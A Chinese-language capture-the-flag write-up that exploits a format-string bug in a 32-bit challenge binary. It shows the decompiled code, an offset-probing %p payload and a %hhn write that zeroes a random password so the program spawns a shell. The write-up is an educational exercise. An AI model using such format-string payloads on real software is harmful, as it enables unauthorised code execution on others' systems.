


先查看防护

发现防护有canary，如需溢出需要注意。

查看反汇编

~~~asm
080491f2    int32_t main(int32_t argc, char** argv, char** envp)

080491f9        void* const __return_addr_1 = __return_addr
08049200        int32_t* var_10 = &argc
0804920f        void* gsbase
0804920f        int32_t eax = *(gsbase + 0x14)
08049229        setvbuf(fp: *stdout, buf: nullptr, mode: 2, size: 0)
08049242        srand(x: time(nullptr))
08049276        read(fd: open(file: "/dev/urandom", oflag: 0), buf: &data_804c044, nbytes: 4)
08049288        printf(format: "your name:")
0804929b        char var_78[0x64]
0804929b        read(fd: 0, buf: &var_78, nbytes: 0x63)
080492ad        printf(format: "Hello,")
080492bc        printf(format: &var_78)
080492ce        printf(format: "your passwd:")
080492e1        char var_88[0x10]
080492e1        read(fd: 0, buf: &var_88, nbytes: 0xf)
080492e1        
08049304        if (atoi(nptr: &var_88) == data_804c044)
08049324            puts(str: "ok!!")
08049336            system(line: "/bin/sh")
08049304        else
08049310            puts(str: "fail")
08049310        
0804934d        if (eax == *(gsbase + 0x14))
0804935d            return 0
0804935d        
0804934f        sub_80493d0()
0804934f        noreturn
~~~

程序给出了获取shell的条件就是用户输入的密码等于程序随机生成的密码。

~~~asm
08049276        read(fd: open(file: "/dev/urandom", oflag: 0), buf: &data_804c044, nbytes: 4)

080492e1        read(fd: 0, buf: &var_88, nbytes: 0xf)
08049304        if (atoi(nptr: &var_88) == data_804c044)
08049324            puts(str: "ok!!")
08049336            system(line: "/bin/sh")
~~~

我们看到用户输入长度做了严格的限制，再加上有canary，溢出不可行。

~~~asm
0804929b        char var_78[0x64]
0804929b        read(fd: 0, buf: &var_78, nbytes: 0x63)

080492e1        char var_88[0x10]
080492e1        read(fd: 0, buf: &var_88, nbytes: 0xf)
~~~

再分析代码我们可以发现格式化字符串漏洞

~~~asm
080492bc        printf(format: &var_78)
~~~

我们首先要确定我们控制的字符串在栈上的第几个位置。

第一个payload构造：

~~~python
payload = b'AAAA'+b'-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p'
~~~

我们看到AAAA所代表的0x41414141出现在第十个参数的位置。所以我们可以利用格式化字符串漏洞答成任意地址写从而改变密码。

atoi函数是用于判断数字是否相等，所以我们目标是讲存储密码的地址全改成0

payload构造：

~~~python
payload = b'%17$hhn%18$hhn%19$hhn%20$hhn'+p32(base)+p32(base+1)+p32(base+2)+p32(base+3)
~~~

之后输入0即可获取shell。

~~~python
p.sendline(b'0') 
~~~

注意事项：

1. 该题目是32位编译，所以地址宽度是4
2. 因为是32位，所以可以将地址前置。但是需要把地址长度考虑在内。因为32全由栈传参所以还算可操作，64位涉及寄存器储存参数建议还是地址后置。
3. 那么地址后置前面的利用代码的整体长度要可以被4整除（64位是8）以及百分号后面的位置也要相应往后顺延。
